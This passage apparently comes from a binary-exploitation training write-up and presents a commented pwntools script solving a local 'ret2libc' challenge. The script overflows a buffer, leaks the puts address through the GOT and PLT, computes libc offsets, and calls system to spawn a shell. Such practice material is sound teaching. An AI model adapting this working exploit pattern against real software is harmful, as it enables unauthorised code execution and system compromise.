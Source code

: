 ![](/assets/images/pwntraining3/pwntrain4.png)

Below is the commented solution. 

```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2libc'
elf = ELF("./ret2libc")

# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# ./exploit.py GDB
gdbscript = '''
b* 0x00000000004011c7
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

p.recvuntil("Are you in?") # recv the output sent by the program.
p.sendline(b"A"*0x60 + b"B"*8 + p64(0x0000000000401016) +  p64(0x000000000040122b) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym.main))
# filling the buffer and RBP + return instruction to tackle the alignment issues + pop RDI to fill it with address of the puts function. add main to return back to main function
p.recvline() # recv unwanted bytes.
leak_puts =hex( u64((p.recvline().rstrip()).ljust(8, b"\x00"))) # recv the puts function and strip the front and back, unpack it and store it as hex.

log.info("puts: "+str(leak_puts)) # make sure you get a address in the libc by logging it.

p.recvuntil("Are you in?") # recv output.
p.sendline(b"B"*0x60 + b"C"*8 + p64(0x000000000040122b) + p64(int(leak_puts, 16) + 0x13000a) + p64(int(leak_puts, 16)-0x32190))
# fill garbage in buffer and pop RDI to fill it with a pointer to "bin/sh" call system.

p.interactive()

```
